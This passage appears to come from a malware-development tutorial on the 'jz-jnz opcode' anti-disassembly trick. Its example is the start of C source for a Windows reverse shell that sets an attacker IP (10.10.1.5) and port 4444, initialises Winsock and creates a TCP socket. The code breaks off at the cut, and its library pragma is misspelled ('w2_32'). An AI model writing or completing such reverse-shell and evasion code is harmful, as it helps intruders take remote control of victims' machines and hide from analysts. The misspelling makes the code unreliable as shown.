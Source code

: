 ![junk1](assets/images/maldev/7/junk1.png)

### method 2 : jz-jnz opcode 

#### Example 

```c 
#include <winsock2.h>
#include <windows.h>
#include <stdio.h>
#pragma comment(lib, "w2_32")

WSADATA socketData;
SOCKET mainSocket;
struct sockaddr_in connectionAddress;
STARTUPINFO startupInfo;
PROCESS_INFORMATION processInfo;

int main(int argc, char* argv[]) {
  
  // ip and port details for the attacker's machine
  char *attackerIP = "10.10.1.5";
  short attackerPort = 4444;

  // initialize socket library
  WSAStartup(MAKEWORD(2, 2), &socketData);

  // create socket object
  mainSocket = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, (unsigned int)NULL, (unsigned int)NULL);

```
